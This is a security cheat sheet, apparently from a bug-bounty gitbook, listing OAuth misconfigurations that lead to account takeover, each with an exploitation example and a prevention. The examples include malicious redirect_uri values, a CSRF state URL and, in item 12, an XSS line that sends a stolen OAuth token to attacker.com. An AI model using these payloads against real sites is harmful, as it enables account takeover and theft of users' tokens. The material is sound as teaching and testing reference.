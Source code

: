 ```yaml
---

### **OAuth Testing Scenarios**

#### **General Research**
- Check Medium for articles and writeups.
- Check GitHub for tools and repositories.
- Check Telegram for tips and discussions.
- Check X (Twitter) for tips and updates.
- Search on Google for new techniques and vulnerabilities.

#### **Writeups & References**
- DOM XSS to Account Takeover Writeup: https://thefrogsec.github.io/2024/04/06/How-we-escalated-a-DOM-XSS-to-a-sophisticated-1-click-Account-Takeover-for-8000-Part-1/
- OAuth Vulnerabilities by Payatu: https://payatu.com/blog/oauth-vulnerabilities/#1_Stealing_OAuth_Token_via_redirect_uri
- OAuth 2.0 Vulnerabilities Cheat Sheet: https://0xn3va.gitbook.io/cheat-sheets/web-application/oauth-2.0-vulnerabilities
- RFC 6749 - OAuth 2.0 Specification: https://www.rfc-editor.org/rfc/rfc6749#section-4.1.2
- OAuth 2.0 Official Documentation: https://oauth.net/2/
- Salmonsec Cheatsheet: https://salmonsec.com/cheatsheethome
- Breaking the Chain: Exploiting OAuth and Forgot Password for Account Takeover: https://www.bugcrowd.com/blog/breaking-the-chain-exploiting-oauth-and-forgot-password-for-account-takeover/
- Authentication Bypass Notion Page: https://boom-stinger-c76.notion.site/Authentication-Bypass-17853b6a0d6e80f8aea8d59e9e5dc874
- RFC 6749 - OAuth 2.0 Full Specification: https://datatracker.ietf.org/doc/html/rfc6749
- RFC 6749 - Section 1.3.2: https://datatracker.ietf.org/doc/html/rfc6749#section-1.3.2
- Authentication Bypass on Airbnb via OAuth Tokens Theft: https://www.arneswinnen.net/2017/06/authentication-bypass-on-airbnb-via-oauth-tokens-theft/
- OAuth Misconfigurations to ATO: https://sallam.gitbook.io/sec-88/web-appsec/oauth-misconfigurations/oauth-to-ato

#### **OAuth Testing Techniques**
- Brute Force to get legacy or unimplemented OAuth flows:
  - List of OAuth Providers: https://en.wikipedia.org/wiki/List_of_OAuth_providers
- Modify the `hd=` parameter:
  - Intigriti Tweet: https://x.com/intigriti/status/1383397368691789825
- Remove `email` from the scope.
- Use the Access Token of your app instead of the Auth Token of the victim app:
  - Account Takeover via Facebook Login Misconfiguration: https://ankitthku.medium.com/account-takeover-via-common-misconfiguration-in-facebook-login-a2ac8b479b3
  - HackerOne Report 1: https://hackerone.com/reports/101977
  - HackerOne Report 2: https://hackerone.com/reports/314808

---
```

---

### **OAuth Misconfigurations Leading to ATO**

---

#### **1. Improper Redirect URI Validation**
- **Issue**: The application does not properly validate the `redirect_uri` parameter.  
- **Exploitation**:  
  - Use a malicious `redirect_uri` to steal authorization codes or tokens.  
  - Example:  
    ```plaintext
    redirect_uri=https://attacker.com
    ```
- **Prevention**:  
  - Strictly validate the `redirect_uri` against a whitelist of allowed URIs.  

---

#### **2. Leakage of Authorization Codes**
- **Issue**: Authorization codes are exposed in URLs, logs, or browser history.  
- **Exploitation**:  
  - Intercept authorization codes from insecure channels.  
  - Example: Codes leaked in the `Referer` header or browser history.  
- **Prevention**:  
  - Use PKCE (Proof Key for Code Exchange) to secure authorization codes.  

---

#### **3. Token Leakage via Referer Header**
- **Issue**: Tokens are leaked in the `Referer` header when navigating to third-party sites.  
- **Exploitation**:  
  - Capture tokens from the `Referer` header.  
  - Example:  
    ```plaintext
    Referer: https://victim.com/?token=abc123
    ```
- **Prevention**:  
  - Use `Referrer-Policy: no-referrer` or `Referrer-Policy: strict-origin-when-cross-origin`.  

---

#### **4. Weak Token Validation**
- **Issue**: The application does not properly validate OAuth tokens.  
- **Exploitation**:  
  - Use expired or tampered tokens to gain unauthorized access.  
  - Example: Reuse tokens after they have expired.  
- **Prevention**:  
  - Validate tokens using the OAuth provider’s introspection endpoint.  

---

#### **5. Insecure Storage of Tokens**
- **Issue**: Tokens are stored in insecure locations (e.g., local storage, cookies without `HttpOnly` and `Secure` flags).  
- **Exploitation**:  
  - Steal tokens via XSS or other client-side attacks.  
  - Example:  
    ```javascript
    localStorage.getItem('oauth_token');
    ```
- **Prevention**:  
  - Store tokens securely using `HttpOnly` and `Secure` cookies.  

---

#### **6. Lack of State Parameter**
- **Issue**: The `state` parameter is missing or not validated.  
- **Exploitation**:  
  - Perform CSRF attacks to link the attacker’s account to the victim’s session.  
  - Example:  
    ```plaintext
    https://oauth-provider.com/auth?client_id=123&redirect_uri=https://victim.com&state=attacker_state
    ```
- **Prevention**:  
  - Always include and validate the `state` parameter.  

---

#### **7. Open Redirects in OAuth Flow**
- **Issue**: The application allows open redirects during the OAuth flow.  
- **Exploitation**:  
  - Redirect users to malicious sites after authentication.  
  - Example:  
    ```plaintext
    redirect_uri=https://victim.com?next=https://attacker.com
    ```
- **Prevention**:  
  - Validate and restrict redirect URIs to trusted domains.  

---

#### **8. Token Replay Attacks**
- **Issue**: Tokens can be reused or replayed.  
- **Exploitation**:  
  - Capture and reuse tokens to impersonate users.  
  - Example: Replay tokens from intercepted requests.  
- **Prevention**:  
  - Use short-lived tokens and implement token revocation.  

---

#### **9. Insufficient Scope Validation**
- **Issue**: The application does not properly validate the scope of tokens.  
- **Exploitation**:  
  - Use tokens with excessive permissions to perform unauthorized actions.  
  - Example: Use a token with `read_write` scope to modify data.  
- **Prevention**:  
  - Validate token scopes before granting access to resources.  

---

#### **10. Misconfigured CORS**
- **Issue**: The application allows cross-origin requests to OAuth endpoints.  
- **Exploitation**:  
  - Perform cross-origin attacks to steal tokens or authorization codes.  
  - Example:  
    ```javascript
    fetch('https://oauth-provider.com/token', { credentials: 'include' });
    ```
- **Prevention**:  
  - Configure CORS policies to restrict access to trusted origins.  

---

#### **11. Phishing via OAuth Consent Page**
- **Issue**: The OAuth consent page can be spoofed.  
- **Exploitation**:  
  - Trick users into granting access to malicious applications.  
  - Example: Use a fake consent page to steal credentials.  
- **Prevention**:  
  - Educate users to verify the legitimacy of consent pages.  

---

#### **12. Token Hijacking via XSS**
- **Issue**: Tokens are vulnerable to theft via XSS.  
- **Exploitation**:  
  - Inject malicious scripts to steal tokens.  
  - Example:  
    ```javascript
    document.location='https://attacker.com/?token='+localStorage.getItem('oauth_token');
    ```
- **Prevention**:  
  - Implement strong XSS protections and sanitize user inputs.  

---

#### **13. Lack of Token Binding**
- **Issue**: Tokens are not bound to the client or user session.  
- **Exploitation**:  
  - Use stolen tokens on different devices or sessions.  
  - Example: Replay tokens from one session to another.  
- **Prevention**:  
  - Implement token binding using mechanisms like DPoP (Demonstrating Proof of Possession).  

---

#### **14. Insecure Token Transmission**
- **Issue**: Tokens are transmitted over unencrypted channels (HTTP).  
- **Exploitation**:  
  - Intercept tokens via MITM attacks.  
  - Example: Capture tokens from HTTP requests.  
- **Prevention**:  
  - Always use HTTPS for token transmission.  

---

#### **15. Misconfigured Token Expiry**
- **Issue**: Tokens have excessively long expiry times.  
- **Exploitation**:  
  - Use expired tokens to maintain access.  
  - Example: Reuse tokens long after they should have expired.  
- **Prevention**:  
  - Use short-lived tokens and refresh tokens with limited lifetimes.  

---

--- https://sallam.gitbook.io/sec-88/web-appsec/auth0-misconfigurations
